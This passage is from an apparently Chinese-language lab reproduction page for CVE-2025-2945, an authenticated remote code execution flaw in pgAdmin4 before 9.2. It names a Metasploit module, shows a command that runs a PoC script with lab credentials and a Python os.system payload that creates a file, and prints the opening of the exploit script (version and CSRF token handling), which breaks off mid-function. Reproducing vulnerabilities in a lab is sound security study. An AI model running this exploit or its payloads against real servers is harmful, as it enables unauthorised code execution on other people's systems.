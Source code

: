 ## 漏洞复现

复现此漏洞可以使用 Metasploit 的 `exploit/multi/http/pgadmin_query_tool_authenticated` 模块或独立的 Python 脚本 [https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py](https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py)。

运行 exploit 脚本，使用简单的文件创建载荷来验证代码执行：

```shell
python exp.py --target-url http://your-ip:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload "__import__('os').system('touch /tmp/awesome_poc')"
```

![](images/pgAdmin4＜9.2%20后台远程代码执行漏洞%20CVE-2025-2945/image-20250922101655875.png)

执行成功后，通过检查容器来验证文件是否被创建：

```shell
docker compose exec web ls -al /tmp/
```

![](images/pgAdmin4＜9.2%20后台远程代码执行漏洞%20CVE-2025-2945/image-20250922101742643.png)

## 漏洞 POC

[exp.py](https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py)

```
#!/usr/bin/env python3

import re
from random import randint
from urllib.parse import urljoin

import requests

def get_version(target_url: str) -> tuple[int, int] | None:
    resp = requests.get(urljoin(target_url, '/login'))
    if resp.status_code == 200:
        if m := re.search(r'<link [^>?]+\?ver=(\d?\d)(\d\d)\d\d"/?>', resp.text):
            return int(m.group(1)), int(m.group(2))

def get_csrf_token(session: requests.Session, target_url: str) -> str | None:
    login_resp = session.get(urljoin(target_url, '/login'), allow_redirects=False)
    if login_resp.status_code == 200:
        if m := re.search(
            r'<input name="csrf_token"( hidden="")? value="([\w+.-]+)">', login_resp.text
        ):
            return m.group(2)
        if m := re.search(r'"csrfToken": "([\w+.-]+)"', login_resp.text):
            return m.group(1)
    else:
        js_resp = session.get(urljoin(target_url, '/browser/js/utils.js'))
```